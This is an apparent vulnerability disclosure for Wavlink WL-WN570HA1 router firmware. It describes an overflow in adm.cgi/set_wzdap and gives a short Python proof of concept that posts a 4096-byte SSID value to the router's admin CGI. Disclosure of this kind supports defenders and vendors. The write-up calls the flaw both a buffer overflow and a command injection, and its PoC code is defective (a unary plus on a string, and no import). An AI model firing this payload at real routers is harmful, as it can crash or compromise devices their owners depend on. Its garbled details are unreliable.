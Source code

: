 # buff overflow

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a command injection in adm.cgi/set_wzdap

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:


![](3.png)

get value from wlan_ssid2g

![](4.png)

and we can set TouchLinkEn in wireless.cgi

if TouchLinkEn was set, call sprintf, cause buff overflow

## POC
```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'wzdap', 'wlan_ssid2g': + payload})
``` 
